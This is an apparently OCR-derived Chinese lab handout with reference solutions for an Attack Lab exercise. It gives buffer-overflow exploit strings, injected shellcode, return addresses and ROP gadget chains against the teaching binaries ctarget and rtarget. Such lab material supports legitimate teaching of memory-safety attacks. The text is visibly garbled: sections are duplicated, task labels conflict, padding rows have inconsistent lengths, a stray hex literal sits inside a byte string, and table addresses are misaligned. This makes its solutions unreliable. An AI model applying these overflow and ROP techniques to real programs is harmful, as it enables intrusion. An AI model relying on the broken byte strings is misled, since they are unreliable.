


# 《计算机系统基础Ⅰ》Attack Lab 实验3提示（混合式）

原件经识别和整理；“参考解答”是我们补的。

## 目标程序分析

`getbuf` 函数的功能是从标准输入（stdin）读入一个字符串。

`getbuf` 函数源程序（bufbomb.c 里没有，根据反汇编逆向）：

```
0000000000401de1 <getbuf>:
401de1: f3 0f 1e fa          endbr64
401de5: 48 83 ec 28          sub    $0x28,%rsp
401de9: 48 89 e7             mov    %rsp,%rdi
401dec: e8 ad 02 00 00       call   40209e
401df1: b8 01 00 00 00       mov    $0x1,%eax
401df6: 48 83 c4 28          add    $0x28,%rsp
401dfa: c3                   ret
```

## 任务1：ctarget level1

设计字符串输入给 ctarget，造成缓冲区溢出，转向执行 `touch1`。

### 攻击字符串

无符号字节数据，十六进制表示，字节间用空格隔开，如：

$$
\begin{array}{l}
\texttt{0 0 0 0 0 0 0 0 0 0 0 0 0 0} \\
\texttt{0 0 0 0 0 0 0 0 0 0 0 0 0 0} \\
\texttt{0 0 0 0 0 0 0 0 0 0 0 0 0 0} \\
\texttt{0 0 0 0 0 0 0 0 0 0 0 0 0} \\
\texttt{0 0 0 0 0 0 0 0 0 0 0 0} \\
\texttt{0 0 0 0 0 0 0 0 0 0 0}
\end{array}
$$

`fb 1d 40 00 00 00 00 00`（`000000000401dfb <touch1>`）



### ctarget level1

设计字符串输入给 ctarget，造成缓冲区溢出，转向执行 `touch1`。

### 攻击字符串

无符号字节数据，十六进制表示，字节间用空格隔开，如：

$$
\begin{array}{l}
\texttt{0 0 0 0 0 0 0 0 0 0 0 0 0 0} \\
\texttt{0 0 0 0 0 0 0 0 0 0 0 0 0 0} \\
\texttt{0 0 0 0 0 0 0 0 0 0 0 0 0} \\
\texttt{0 0 0 0 0 0 0 0 0 0 0 0} \\
\texttt{0 0 0 0 0 0 0 0 0 0 0} \\
\texttt{0 0 0 0 0 0 0 0 0 0}
\end{array}
$$

`fb 1d 40 00 00 00 00 00`（`000000000401dfb <touch1>`）



### ctarget level2

构造攻击字串造成缓冲区溢出，使目标程序调用 `touch2` 函数，并将 cookie 值作为参数传递给 `touch2` 函数，使 `touch2` 函数中的判断成功。

## 任务3：ctarget level2

### 攻击字符串

`movq $0x59b997fa,%rdi; ret`

$$
\begin{array}{rl}
& \texttt{48 c7 c7 fa 97 b9 59 c3} \\
& \texttt{0 0 0 0 0 0 0 0 0 0 0 0 0 0} \\
& \texttt{0 0 0 0 0 0 0 0 0 0 0 0 0 0} \\
& \texttt{0 0 0 0 0 0 0 0 0 0 0 0 0 0} \\
& \texttt{0 0 0 0 0 0 0 0 0 0 0 0 0 0}
\end{array}
$$

`/* Address of shellcode */ 78 dc 61 55 00 00 00 00`（`0x5561dc78`，即 rSP）

`/* Address of touch2 */ 2f 1e 40 00 00 00 00 00`

### 如何构造含有恶意攻击代码的攻击字符串

编写汇编代码文件 `asm.s`，将该文件编译成机器代码：

```
gcc -c asm.s
```

反汇编 `asm.o` 得到恶意代码字节序列，插入攻击字符串适当位置：

```
objdump -d asm.o
```

| 寄存器 | 值 | 十进制/说明 |
| --- | --- | --- |
| rbp | 0x55685fe8 | 0x55685fe8 |
| rsp | 0x5561dc78 | 0x5561dc78 |
| r8 | 0x7ffff7e1ca70 | 140737352157808 |
| r9 | 0x0 | 0 |
| r10 | 0x7ffff7c0be98 | 140737349992088 |
| r11 | 0x7ffff7cc5000 | 140737350750208 |
| r12 | 0x404225 | 4211237 |

| 地址 | 指令 |
| --- | --- |
| 0x401de1 | `endbr64` |
| 0x401de5 | `sub $0x28,%rsp` |
| 0x401de9 | `mov %rsp,%rdi` |
| 0x401dec | `call 0x40209e` |
| 0x401df1 | `mov $0x1,%eax` |
| 0x401df6 | `add $0x28,%rsp` |
| 0x401dfa | `ret` |
| 0x401dfb | `endbr64` |
| 0x401dff | `push %rax` |

## 任务3：ctarget level3

构造攻击字串，使目标程序调用 `bang` 函数，要将函数中全局变量 `global_value` 篡改为 cookie 值，使相应判断成功，需要在缓冲区中注入恶意代码篡改全局变量。

### 攻击字符串

`/* 'movq $0x5561dcb0,%rdi; ret' */`

```
48 c7 c7 b0 dc 61 55 c3 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 0x5561dcb0 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
/* Address of shellcode */ 78 dc 61 55 00 00 00 00
/* Address of touch3 */ 4c 1f 40 00 00 00 00 00
/* String representation of 0x59b997fa */ 35 39 62 39 39 37 66 61
```

（`0x5561dc78`）

## 任务4：rtarget level2

（地址空间随机化）

- 函数的栈帧的内存地址随程序运行实例的不同而变化。
- 也就是一个函数的栈帧位置每次运行时都不一样。

前面攻击实验中，`getbuf` 代码调用经过特殊处理获得了稳定的栈帧地址，这使得基于 buf 的已知固定起始地址构造攻击字符串成为可能。

缓冲区溢出攻击防范：地址空间随机化。

### 任务4：rtarget level2

```
/* Pop to rax */
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 4d 20 40 00 00 00 00 00
/* Stack data = 0x59b997fa */ fa 97 b9 59 00 00 00 00
/* Move from rax to rdi */ 42 20 40 00 00 00 00 00
/* Call target function */ 2f 1e 40 00 00 00 00 00
```

| 内容 |
| --- |
| Touch2 地址 |
| 402042 |
| cookie |
| 40204d |
| buf[39-32] |
| buf[31-24] |
| ... |
| buf[7-0] |

### 1. tt1.s

### 2. gcc -c -o tt1.o tt1.s

### 3. objdump -d tt1.o

| 偏移 | 机器码 | 指令 |
| --- | --- | --- |
| 0 | 58 | `pop %rax` |
| 1 | c3 | `ret` |
| 2 | 48 89 c7 | `mov %rax,%rdi` |
| 5 | c3 | `ret` |

### 3. objdump –d rtarget

| 地址 | 机器码 | 指令 |
| --- | --- | --- |
| 0000000000402047 `<getval_280>` | | |
| 402047 | f3 0f 1e fa | `endbr64` |
| 40204b | b8 29 58 90 c3 | `mov $0xc3905829,%eax` |
| 402050 | c3 | `ret` |

`endbr64`

`movl $0x90c78948,(%rdi)`

`ret`

## 任务4：rtarget level3

| 内容 | 说明 | 地址 |
| --- | --- | --- |
| 00 00 00 00 00 00 00 00 | rSP+0x20→ cookie ASCII 码 | |
| 00 00 00 00 00 00 00 00 | | Touch3 地址 |
| 00 00 00 00 00 00 00 00 | | |
| 00 00 00 00 00 00 00 00 | | |
| 00 00 00 00 00 00 00 00 | | |
| 4d 20 40 00 00 00 00 00 | /* Pop to rax */ | 41205f |
| 20 00 00 00 00 00 00 00 | /* Stack data = 0x20 */ rSP | 412042 |
| 0b 21 40 00 00 00 00 00 | /* Move from eax to edx */→ | 4120ab |
| 4a 21 40 00 00 00 00 00 | /* Move from edx to ecx */ | 4120e0 |
| e0 20 40 00 00 00 00 00 | /* Move from ecx to esi */ | 41214a |
| ab 20 40 00 00 00 00 00 | /* Move rsp to rax */ | 41210b |
| 42 20 40 00 00 00 00 00 | /* Move from rax to rdi */ | 0x20 |
| /* Add rsi+rdi to get address for string in rax */ | | 40204d |
| 5f 20 40 00 00 00 00 00 | | |
| 42 20 40 00 00 00 00 00 | /* Move address from rax to rdi */ | |
| 4c 1f 40 00 00 00 00 00 | /* Call target function */ → | |
| /* String representation of cookie */ | | buf[39-32] |
| 35 39 62 39 39 37 66 61 00 | | buf[31-24] |
| | | ... |
| | | buf[7-0] |

# 《计算机系统基础Ⅰ》Attack Lab 实验 3 提示（混合式）第 2 部分

本部分内容为识别工具从《计算机系统基础Ⅰ》Attack Lab 实验 3 提示（混合式）第 2 部分（共 2 部分）中读取的汇编代码片段，包含 `setval_426` 和 `getval_280` 两个函数的反汇编指令及地址信息。

## 函数 setval_426

### 选择 1

**函数名**：`setval_426`
**起始地址**：`0x40203c`

```nasm
40203c: f3 0f 1e fa     endbr64
402040: c7 07 48 89 c7 90 movl    $0x90c78948,(%rdi)
402046: c3              ret
```

- **指令解析**：
  - `endbr64`: 启用控制流完整性保护的入口指令。
  - `movl $0x90c78948,(%rdi)`: 将立即数 `0x90c78948` 移动到由寄存器 `%rdi` 指向的内存地址处。
  - `ret`: 返回指令。

### 选择 2

**函数名**：`getval_280`
**起始地址**：`0x402047`

```nasm
402047: f3 0f 1e fa     endbr64
40204b: b8 29 58 90 c3  mov       $0xc3905829,%eax
402050: c3              ret
```

- **指令解析**：
  - `endbr64`: 启用控制流完整性保护的入口指令。
  - `mov $0xc3905829,%eax`: 将立即数 `0xc3905829` 移动到寄存器 `%eax` 中。
  - `ret`: 返回指令，返回值位于 `%eax`。

---

*注：以上代码片段源自实验材料第 16 页，保留了原始识别内容中的十六进制地址、机器码及助记符格式。*
